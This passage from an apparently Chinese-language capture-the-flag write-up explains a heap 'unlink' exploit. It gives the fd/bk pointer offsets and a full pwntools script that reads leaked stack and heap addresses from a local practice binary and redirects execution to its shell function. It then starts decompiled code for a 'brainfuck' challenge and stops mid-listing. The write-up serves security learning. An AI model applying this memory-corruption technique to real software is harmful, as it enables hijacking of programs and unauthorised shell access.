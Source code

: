 BK->fd = FD,则payload如下:

```
fd: heap_A_address + 12
bk: stack_A_address + 16
```

所以payload如下:

```
from pwn import *

p = process("./unlink")
p.recvuntil(": ")
stack_A_address = int(p.recvn(10), 16)
print "stack_address: ", hex(stack_A_address)
p.recvuntil(": ")
heap_A_address = int(p.recvn(10), 16)
print "heap_address: ", hex(heap_A_address)
p.recvuntil("shell!")

elf = ELF("./unlink")
print "shell_address: " , hex(elf.symbols['shell'])

# method 1
#payload = p32(elf.symbols['shell']) + 'A' * 12 + p32(heap_A_address + 12) + p32(stack_A_address + 16)

# method 2
payload = p32(elf.symbols['shell']) + 'A' * 12 + p32(stack_A_address + 12) + p32(heap_A_address + 12)

p.sendline(payload)
p.interactive()
```

## brainfuck

```
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = p-- - 1;
      break;
```